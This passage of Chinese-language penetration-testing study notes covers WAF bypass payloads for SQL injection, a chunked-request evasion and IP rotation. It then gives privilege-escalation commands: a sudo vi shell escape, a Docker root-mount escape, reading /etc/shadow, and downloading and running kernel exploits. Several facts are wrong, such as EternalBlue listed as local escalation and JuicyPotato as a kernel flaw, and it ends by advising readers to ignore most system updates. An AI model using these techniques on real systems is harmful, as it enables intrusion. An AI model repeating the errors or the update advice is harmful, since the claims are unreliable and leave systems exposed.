
3\. 行为分析（高阶WAF）

请求频率（CC攻击检测）
请求关联性（扫描器指纹）
会话行为（暴力破解检测）

**7.5.2 WAF的绕过思路**

1\. 数据混淆（绕过正则）

**目标**：让Payload不匹配规则中的正则表达式。

| 技巧                    | 原始Payload    | 绕过Payload                                        |
| :---------------------- | :------------- | :------------------------------------------------- |
| 大小写混写              | `union select` | `UnIoN SeLeCt`                                     |
| 注释干扰                | `union select` | `uni/**/on sel/**/ect`                             |
| URL编码                 | `union select` | `%75nion%20select`                                 |
| 双重编码                | `union`        | `%2575nion`（先编码一次`%75`，再把`%`编码成`%25`） |
| 换行/制表符             | `union select` | `union\nselect`、`union\tselect`                   |
| 空字节注入（PHP < 5.3） | `union select` | `%00union select`                                  |
| 函数分割                | `sleep(1)`     | `slee`、`p(1)` 或 `sleep`(1)                       |

2\. HTTP协议技巧（绕过检测点）

| 技巧                 | 原理                                  | 示例                                                         |
| :------------------- | :------------------------------------ | :----------------------------------------------------------- |
| **参数污染**         | WAF解析参数与后端解析不一致           | `?id=1&id=union select`（WAF可能只检查第一个`id`）           |
| **分块传输**         | 把Payload拆成多个chunk，WAF未重组检测 | `Transfer-Encoding: chunked`                                 |
| **GET转POST**        | WAF只检测GET，不检测POST              | 请求方法改为POST，把Payload放Body里                          |
| **Content-Type绕过** | 修改Content-Type让WAF忽略检测         | `Content-Type: image/jpeg`、`Content-Type: multipart/form-data` |
| **编码绕行**         | 使用WAF不支持的编码                   | `Content-Encoding: identity`、chunked后的编码                |

3\. 分段传输（分块编码）

```http
POST /index.php HTTP/1.1
Transfer-Encoding: chunked

4
uni
5
on se
3
lect
0
```

WAF需要先解码/重组分块才能检测，很多WAF这一步处理不完整（或性能原因主动放弃）。

4\. 边界绕过（不被匹配逻辑覆盖）

**换IP**：WAF对单个IP有频率限制或封锁，换IP绕过

**扫描器特征隐藏**：修改User-Agent（不用SQLmap默认UA）

**延时绕过**：WAF检测窗口过短，慢速请求绕过

7.5.3 SQL注入典型WAF绕过

| 方法       | 示例                                                |
| :--------- | :-------------------------------------------------- |
| 内联注释   | `/*!UNION*/ /*!SELECT*/`                            |
| 科学计数法 | `union select 1e0,2`（某些正则漏了数字`e`数字）     |
| 引号绕过   | `1' and '1'='1` → `1' && '1'='1`（换种逻辑）        |
| 比较符替换 | `or 1=1` → `or 1 like 1`                            |
| 函数变形   | `hex()`、`unhex()`、`char()`、`ascii()`             |
| 绕过空格   | `%09`（Tab）、`%0a`（换行）、`%0c`、`%0d`、括号绕过 |

| WAF检测盲区      | 说明                                  |
| :--------------- | :------------------------------------ |
| **文件上传**     | WAF难以检测图片马、压缩包中的恶意文件 |
| **后端业务逻辑** | WAF无法理解业务，如短信轰炸、越权     |
| **反序列化**     | 二进制Payload很难用特征匹配检测       |
| **XXE**          | 外部实体的URL可能不匹配规则           |
| **CORS配置错误** | 不是攻击特征但危害大                  |
| **GraphQL内省**  | 正常请求，但可导致信息泄露            |

### 7.8 提权与内核漏洞

- 提权（Privilege Escalation）是指攻击者从**低权限用户**（如Web服务user、普通用户）获得**更高权限**（如管理员、root、SYSTEM）的过程。

**提权目的：**初入服务器时，你拿到的往往是低权限入口（Web Shell、普通用户、数据库连接）

大多数核心操作需要高权限（安装软件、创建用户、读取shadow文件、改系统配置）

提权 = 解锁服务器“上帝模式”

**7.6.1 提权分类**：

| 类型         | 定义                               | 例子                              |
| :----------- | :--------------------------------- | :-------------------------------- |
| **纵向提权** | 从低权限角色→高权限角色            | `www-data` → `root`               |
| **横向提权** | 相同权限等级，但访问其他用户的资源 | 从`user1`登录窃取`user2`的SSH密钥 |

**7.6.2 提权的基本路径**

```text
1. 入口（Web Shell/SQL注入反弹Shell）
       ↓
2. 枚举当前环境（我是谁？什么系统？有什么服务？哪些文件可写？）
       ↓
3. 查找漏洞
   - 内核漏洞（提权exp）
   - SUID/SGID文件配置错误
   - sudo配置不当
   - cron任务滥用
   - 敏感文件可读（/etc/shadow、.ssh/id_rsa）
   - Docker组用户、LXD组等
       ↓
4. 执行exp或利用方法
       ↓
5. 提升到root/SYSTEM
```

**7.6.3 内核漏洞提权**

内核漏洞提权是指利用操作系统内核（Linux/Windows内核）本身的漏洞，从用户态执行恶意代码，获得内核态执行权限（ring0），从而控制整个系统。

| 用户态（ring3）            | 内核态（ring0）                        |
| :------------------------- | :------------------------------------- |
| 普通程序运行               | 操作系统核心运行                       |
| 访问受限（自己的地址空间） | 全权访问物理内存、所有进程、硬件设备   |
| 无法修改内核数据结构       | 可改当前进程的权限字段（直接变成root） |

内核漏洞一旦被利用，攻击者的代码在内核态执行

**7.6.4 提权示例**

Windows内核提权示例（永恒之蓝 EternalBlue）

**简述**：SMBv1协议栈的远程代码执行漏洞（MS17-010）

**利用流程**：

  1\. 目标开放445端口
  2\. 发送特制SMB包，触发内核池溢出
  3\. 在内核态执行shellcode
  4\. 安装后门/开远程桌面/enable管理员账户

**其他知名Windows内核提权**：CVE-2019-0708（BlueKeep）：RDP远程代码执行、CVE-2021-34486：ETW提权

Linux内核提权示例（Dirty Pipe CVE-2022-0847）

**简述**（Linux 5.8+）：利用`pipe`机制中的未初始化内存，向任意只读文件写入数据（包括`/etc/passwd`）

**利用思路**：

  1\. 普通用户运行exp
  2\. 向`/etc/passwd`写一个`root`用户条目（明文密码可控）
  3\. 用这个新用户`su`切换到root

**危害等级**：高危，无需认证即可写系统配置文件。

Windows提权常见方法

| 方法                      | 例子                                                 |
| :------------------------ | :--------------------------------------------------- |
| **内核漏洞**              | `JuicyPotato`家族、`PrintNightmare`、`HiveNightmare` |
| **服务权限配置**          | 可写的服务二进制路径、服务启动脚本可写               |
| **开机自启**              | 启动文件夹、注册表`Run`键可写                        |
| **AlwaysInstallElevated** | MSI安装包可以system权限安装                          |
| **未引用的服务路径**      | 路径包含空格且未加引号，可劫持                       |
| **DLL劫持**               | 高权限进程加载的DLL存放在可写目录                    |
| **注册表权限**            | 关键注册表项当前用户可写                             |
| **Token窃取**             | 窃取高权限进程的访问令牌                             |
| **Unquoted Service Path** | 经典提权，现在少了                                   |

**工具辅助**：

- **WinPEAS**：自动枚举提权可能
- **PowerUp**：PowerView的一部分，检查服务权限
- **Seatbelt**：Sharp另一同类
- **Windows-Exploit-Suggester**：对比补丁，找缺失的提权漏洞

Linux提权常见方法（不只是内核）

| 方法                   | 原理                                                | 检测/利用命令                                                |
| :--------------------- | :-------------------------------------------------- | :----------------------------------------------------------- |
| **内核漏洞**           | 利用内核bug                                         | `uname -a`查看版本，查对应exp                                |
| **SUID提权**           | 可执行文件有`s`位，运行时有文件所有者权限（如root） | `find / -perm -4000 -type f 2>/dev/null` GTOFGBins查提权方法 |
| **sudo配置错误**       | 当前用户能无密码或带特定命令的`sudo`                | `sudo -l` 如可跑`vi`，`sudo vi`后`:!/bin/bash`               |
| **Cron任务滥用**       | 高权限cron执行的脚本可写/可替换                     | `cat /etc/crontab` / `ls -la /etc/cron*`                     |
| **环境变量劫持**       | PATH中可写目录优先级高，或被脚本调用未使用绝对路径  | 写同名恶意程序到`PATH`前部                                   |
| **Docker组提权**       | 用户在`docker`组，可挂载宿主机根目录                | `docker run -v /:/host -it alpine chroot /host`              |
| **LXD组提权**          | 用户在`lxd`组，可创建特权容器                       | `lxd init` + `lxc launch ubuntu:20.04` + `lxc exec`          |
| **NFS无root squash**   | NFS共享无`no_root_squash`，客户端root可改服务端文件 | `showmount -e`                                               |
| **敏感文件泄露**       | 读取`/etc/shadow`、`.ssh/id_rsa`、`history`         | 找备份、.git、配置文件                                       |
| **sudo CVE-2021-3156** | sudo缓存溢出（最近的大众提权）                      | `sudoedit -s /`检测                                          |

**7.6.5 内核漏洞提权的通用流程（仅对未打补丁的老系统有效）**

```text
1. 获取目标内核版本/补丁级别
   Linux: uname -a; cat /etc/os-release
   Windows: systeminfo; ver

2. 寻找匹配的exploit
   查CVE、Exploit-DB、GitHub（SearchSploit）
   注意编译环境（内核版本、gcc版本、libc版本）

3. 上传exp到目标
   wget/curl/certutil 下载，或复制粘贴base64

4. 编译/执行
   Linux: gcc exp.c -o exp; chmod +x ./exp; ./exp
   Windows: 直接跑exe（需匹配架构）

5. 验证提权
   id / whoami
```

这就是为什么总是提示系统更新的原因。（但是除了出现了像永恒之蓝那种级别的攻击需要更新系统填补漏洞以外其他的更新是建议直接忽略的）

------

如果你在阅读时发现了任何错误，请评论或发邮件告诉我，因为错误是学习和发展的一部分！
